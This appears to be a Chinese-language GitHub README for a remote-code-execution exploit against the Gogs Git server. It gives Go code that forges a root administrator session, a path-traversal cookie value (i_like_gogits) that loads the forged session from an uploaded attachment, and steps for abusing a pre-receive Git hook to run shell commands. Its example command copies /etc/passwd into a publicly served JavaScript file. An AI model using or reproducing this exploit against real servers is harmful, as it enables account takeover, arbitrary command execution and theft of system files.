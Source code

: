 # Gogs_RCE


## 0x01 前台注册普通账号

## 0x02 go 编译伪造管理员session

`go run main.go`

```
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data,0777)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}

```

会在当前目录生成data文件

```
root@kali:~/go/demo# cat readme.txt 
go run main.go 

0eff81040102ff82000110011000005aff82000306737472696e670c0a00085f6f6c645f75696406737472696e670c0300013106737472696e670c05000375696405696e7436340402000206737472696e670c070005756e616d6506737472696e670c060004726f6f74
root@kali:~/go/demo# cat data |xxd
00000000: 0eff 8104 0102 ff82 0001 1001 1000 005a  ...............Z
00000010: ff82 0003 0673 7472 696e 670c 0a00 085f  .....string...._
00000020: 6f6c 645f 7569 6406 7374 7269 6e67 0c03  old_uid.string..
00000030: 0001 3106 7374 7269 6e67 0c05 0003 7569  ..1.string....ui
00000040: 6405 696e 7436 3404 0200 0206 7374 7269  d.int64.....stri
00000050: 6e67 0c07 0005 756e 616d 6506 7374 7269  ng....uname.stri
00000060: 6e67 0c06 0004 726f 6f74                 ng....root
root@kali:~/go/demo# 

```

## 0x03 普通用户发布新版本

设置cookie字段 i_like_gogits 为 新版本文件路径，拼接前2个字母
例如：

`/attachments/d734207b-17fb-4b37-b10d-6f5ce70524c4`

`i_like_gogits=../attachments/1/a/1ad4fa98-46b8-4205-a6ae-e2c89e4037e7`

## 0x04 页面刷新，变成root管理员账号

## 0x05 仓库-页面设置，管理Git钩子， 钩子名称 pre-receive 

当服务器为linux平台时，直接写shell脚本，执行命令。

命令触发在仓库上传新文件后。

## 0x06 命令回显-管理面板-应用配置管理-静态文件根目录

通过静态文件根目录 得到绝对路径：例如 /home/git/gogs

shell 脚本内容：

`cat /etc/passwd > /home/git/gogs/public/js/1.js`

网站路径：

`https://127.0.0.1:3000/js/1.js`


